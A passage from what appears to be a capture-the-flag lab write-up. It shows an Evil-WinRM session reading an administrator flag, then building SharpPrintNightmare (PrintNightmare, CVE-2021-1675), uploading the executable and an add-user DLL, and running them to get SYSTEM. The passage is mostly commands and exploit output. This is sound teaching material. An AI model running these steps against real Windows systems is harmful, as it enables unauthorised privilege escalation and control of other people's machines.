    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\0xdf\Documents> cd ..\..\administrator\desktop
    *Evil-WinRM* PS C:\Users\administrator\desktop> type root.txt
    50dfa3c6************************



### SharpPrintNightmare LPE/RCE

#### Build

Cube0x0's repo has a Visual Studio project in it for
`SharpPrintNightmare`. I'll download the repo to my Windows VM, and open
`SharpPrintNightmare.sln` a couple directories deep. I'll select Built
--\> Build Solution, and it builds:



    1>------ Build started: Project: SharpPrintNightmare, Configuration: Release Any CPU ------
    1>  SharpPrintNightmare -> C:\Users\0xdf\Desktop\CVE-2021-1675-main\SharpPrintNightmare\SharpPrintNightmare\bin\Release\SharpPrintNightmare.exe
    ========== Build: 1 succeeded, 0 failed, 0 up-to-date, 0 skipped ==========



#### LPE

I'll copy that `.exe` back to my Linux VM. I'll upload both the `.exe`
and the `.dll` to Heist (though I could also host the `.dll` on an SMB
share like in the previous):



    *Evil-WinRM* PS C:\programdata> upload /opt/SharpPrintNightmare/AddUserDll.dll
    Info: Uploading /opt/SharpPrintNightmare/AddUserDll.dll to C:\programdata\AddUserDll.dll
                                                                 
    Data: 13652 bytes of 13652 bytes copied

    Info: Upload successful!

    *Evil-WinRM* PS C:\programdata> upload /opt/SharpPrintNightmare/SharpPrintNightmare.exe
    Info: Uploading /opt/SharpPrintNightmare/SharpPrintNightmare.exe to C:\programdata\SharpPrintNightmare.exe
                                                                 
    Data: 18432 bytes of 18432 bytes copied

    Info: Upload successful!



Now I just run `SharpPrintNightmare.exe` passing it the path to the DLL
to run as SYSTEM:



    *Evil-WinRM* PS C:\programdata> .\SharpPrintNightmare.exe \programdata\AddUserDll.dll
    [*] pDriverPath C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\mxdwdrv.dll
    [*] Executing \programdata\AddUserDll.dll
    [*] Try 1...
    [*] Stage 0: 0
    [*] Try 2...
    [*] Stage 0: 0
    [*] Stage 2: 0
    [+] Exploit Completed
